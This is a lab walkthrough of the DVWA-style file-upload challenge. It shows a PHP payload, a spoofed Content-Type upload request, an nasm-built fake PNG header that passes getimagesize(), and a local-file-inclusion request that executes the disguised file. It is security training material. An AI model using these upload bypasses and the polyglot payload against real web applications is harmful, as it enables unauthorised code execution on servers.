 # File Upload

Objective

Execute any PHP function of your choosing on the target system (such as
phpinfo() or system()) thanks to this file upload vulnerability.

## low

No filter present, could pass this level with a simple php file:  
```php
<?php
  phpinfo();
?>
```

## medium

This level only accepts JPEG (image/jpeg) or PNG (image/png) files.  
HTTP has no idea what the actual type of our payload is. There's an additional 
header called "Content-Type", which provides MIME type of the file to the
server.

Part of our POST request looks like this:  
```
Content-Disposition: form-data; name="uploaded"; filename="test.php"
Content-Type: application/x-php

<?php phpinfo(); ?>
```

Modify `application/x-php` to `image/jpeg` and our php file should pass the
check.

## high (technique)

Our trick in the medium level loses its effect this time . This level would 
check file extension by `substr()` and verify image type by testing the output 
of `getimagesize()`.

Unfortunately we have to upload something that is not a php, which we can't
trigger by a GET request.
However, hidding some php in the png file seems possible and in order to do
that we have to bypass `getimagesize()`.

First generate a dummy PNG file header with nasm:  
```asm
; Fake_PNG.asm
; compile with
; nasm -f bin -o PNG.bin Fake_PNG.asm
section .data
  magic db 0x89, "PNG", 0x0d, 0x0a, 0x1a, 0x0a
  ihdr_length db 0, 0, 0, 13
  ihdr db "IHDR"
```

Then concat it with some php:  
`echo -n "<?php phpinfo();?>" | cat PNG.bin - > dump.png`  
Any two 4-byte data after IHDR would be interpreted as image width and image 
height, which is just what `getimagesize()` requires.

Upload it and you'll see the success prompt "../../hackable/uploads/dump.png 
succesfully uploaded!".

## high (practice)

As I mentioned above, we need to link in the file inclusion challenge.

Since our nicely crafted png file is successfully uploaded, We can trigger it
using local file inclusion (LFI).  
Send GET request `?page=file:///var/www/html/hackable/uploads/dump.png` to
`/vulnerabilities/fi/` and you'll soon get a php info webpage.
